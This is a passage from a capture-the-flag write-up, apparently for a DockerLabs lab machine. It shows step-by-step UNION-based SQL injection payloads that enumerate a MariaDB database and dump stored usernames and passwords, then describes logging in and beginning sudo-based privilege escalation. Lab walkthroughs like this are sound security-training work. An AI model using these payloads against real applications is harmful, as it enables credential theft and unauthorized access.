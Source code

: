 By experimenting with the alert that appears, I was able to ascertain the number of columns.

Now, let's play with the "union select" query:

- `' union select 1,2,3-- -`: This should display values if there are three columns.

![image](https://github.com/kvlx-alt/DockerLabs-WriteUps/assets/118694485/5b48dacb-17ba-4a70-9596-6bfd1a6f9057)

- `' union select 1,database(),3-- -`: This should display the currently used database.
![image](https://github.com/kvlx-alt/DockerLabs-WriteUps/assets/118694485/3f5b1ed4-1514-4f15-86a0-869ad175ad64)

- `' union select 1,version(),3-- -`: This should display the MariaDB version.

![image](https://github.com/kvlx-alt/DockerLabs-WriteUps/assets/118694485/ead642a8-fbbd-46c8-84b8-d88999aa45a7)
- `' union select 1,schema_name,3 from information_schema.schemata-- -`: This should list the databases.

![image](https://github.com/kvlx-alt/DockerLabs-WriteUps/assets/118694485/523ecadc-0a9e-4e8a-bcd4-5519d11bc154)

- `' union select 1,table_name,3 from information_schema.tables where table_schema='testdb'-- -`: This should enumerate the tables.

![image](https://github.com/kvlx-alt/DockerLabs-WriteUps/assets/118694485/b53d6537-48ad-4274-9d38-055ce0916f1b)


- `' union select 1,column_name,3 from information_schema.columns where table_schema='testdb' and table_name='users'-- -`: This should list the columns.

![image](https://github.com/kvlx-alt/DockerLabs-WriteUps/assets/118694485/aa9d0595-e4ce-403e-8d7c-4c4ffbebe82c)

- `' union select 1,group_concat(username,':',password),3 from testdb.users-- -`: This should enumerate the usernames and passwords.

![image](https://github.com/kvlx-alt/DockerLabs-WriteUps/assets/118694485/826cb028-6997-4656-a0ac-3db8dd9b9084)


We obtained additional credentials through the SQL injection vulnerability. 
Using the username "kvzlx," we gained access to the server.

![image](https://github.com/kvlx-alt/DockerLabs-WriteUps/assets/118694485/22e613b9-39fa-4cc0-a964-c3c214a09fe9)

**Now its time to escalate privilege!!**

In the user's home directory, there is a Python script named "system_info.py" and a note. Upon checking permissions, we can execute and read this script.
![image](https://github.com/kvlx-alt/DockerLabs-WriteUps/assets/118694485/4c9bb9bb-0c4d-4c6f-9fe7-2cc001e4153d)

This script,  utilizes the `psutil` library in Python to gather information about the system's virtual memory. There doesn't appear to be any obvious vulnerability in the script.

I explored other possibilities but found nothing noteworthy. Then, I checked the sudo permissions and discovered that the user "kvzlx" has the ability to execute the script "system_info.py" as root using sudo.

![image](https://github.com/kvlx-alt/DockerLabs-WriteUps/assets/118694485/5a4e67a6-2c3f-463d-8fc0-1cb0f9d7295c)
